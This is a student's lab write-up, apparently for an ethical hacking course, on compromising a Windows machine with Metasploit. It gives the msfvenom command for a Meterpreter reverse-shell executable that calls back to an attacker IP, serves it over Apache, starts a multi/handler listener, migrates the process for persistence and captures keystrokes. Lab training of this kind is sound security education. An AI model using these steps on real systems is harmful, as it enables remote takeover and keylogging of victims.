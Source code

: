 ## Name : Hema Dharshini N
## reg no: 212223220034

# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## OUTPUT:
![eth ep 6 1](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/42c07380-31db-4e8f-a50f-dc79cbe7014e)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![ETH EP 6 2](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/981dae79-a184-4fe7-97fb-f06c1390355c)

copy the fun.exe into the apache /var/www/html folder

![ETH EP 6 3](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/dd0bc2d7-d144-42a9-a9a4-0fb8dc491ae1)

Start apache server sudo systemctl apache2 start

![ETH EP 6 4](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/9eb99679-ea0d-4ea0-97c0-f75407e31d23)

 Check the status of apache2

 ![ETH EP 6 5](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/27b142a8-4e44-447e-bed2-77e48cf0babb)
 
 Invoke msfconsole:
 ## OUTPUT:
 Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![ETH EP 6 6](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/cac71c8f-d77f-45fa-bb28-ee8ceaa8cf94)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![eth ep 6 7](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/ecd3b7e2-63d0-4e99-990d-95fbd3654662)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![eth ep 6 8](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/c4b4e30a-88d4-4397-b4aa-e9a3e2136f0f)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![eth ep 6 9](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/a9ce9410-a8f5-4a9d-974c-7d482492914f)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![eth ep 6 10](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/90eea5e9-aee0-4238-bc08-796d0a407cdc)

keyscan_dump Shows the keystrokes captured so far

![eth ep 6 11](https://github.com/hema-dharshini5/Compromising-windows-using-Metasploit/assets/147117728/a9863e2c-4d9a-4d10-b95a-ae69b44c3386)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
